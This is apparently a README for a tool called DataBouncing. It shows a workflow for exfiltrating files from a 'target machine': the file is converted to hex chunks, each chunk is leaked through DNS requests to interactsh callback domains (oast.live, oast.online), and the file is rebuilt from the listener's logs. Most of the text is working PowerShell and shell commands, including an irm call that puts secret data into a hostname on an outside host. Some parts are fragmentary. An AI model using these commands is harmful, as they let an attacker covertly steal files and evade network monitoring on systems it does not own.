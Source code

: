 # DataBouncing

You have two options. 
Use the [InteractSh Web Client](https://app.interactsh.com/#/) or 
use this [Build Script](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh) with an Ubuntu 22.04 image.

Run this command on your listener machine to start the InteractSh Client and define your log file

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```

Next on the target machine you are going to want to convert a file to Hex and prepare it for transfer with this script:
[chunks](https://github.com/Unit-259/DataBouncing/blob/main/Client/Convert-FileToHexChunks.ps1)

```powershell
$segments = Convert-FileToHexChunks -FilePath .\file.txt
```

foreach ($segment in $segments.PSObject.Properties) {$secret = $segment.Value;send-customRequest -Url "adobe.com" -Domain "clnd1r2ilvdup3udiuk0fgw7q6dgzfwx4.oast.live"}



```
function Send-Secrets {
    param (
        [string]$xregex,
        [string]$urlSuffix
    )

    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value
        $url = "$xregex.$secret.$urlSuffix"
        Send-CustomRequest $url
    }
}
```

```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```



```
Convert-hexToAscii (find-secret -FilePath ./logs.txt -XRegex 'xregex')
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
